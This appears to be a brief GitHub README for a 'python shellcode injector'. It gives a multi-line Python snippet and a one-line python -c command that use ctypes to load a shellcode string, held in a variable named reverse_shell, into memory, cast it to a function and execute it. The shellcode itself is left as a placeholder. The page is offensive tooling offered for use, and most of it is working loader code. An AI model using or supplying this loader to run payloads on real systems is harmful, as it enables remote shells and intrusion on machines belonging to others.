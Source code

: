 # overview

python shellcode injector 

- also see [here](https://stackoverflow.com/questions/62036405/how-to-run-shellcode-in-python-3) for some potential improvements
- single line (python2) [function pointer cast execution](https://securityweekly.com/2011/10/23/python-one-line-shell-code/)
```python
from ctypes import *

reverse_shell = "<shellcode>"
memorywithshell = create_string_buffer(reverse_shell, len(reverse_shell))
shellcode = cast(memorywithshell, CFUNCTYPE(c_void_p))
shellcode()
```

```python
python -c "from ctypes import *;reverse_shell = '<SHELLCODE>';memorywithshell = create_string_buffer(reverse_shell, len(reverse_shell));shellcode = cast(memorywithshell, CFUNCTYPE(c_void_p));shellcode()"
```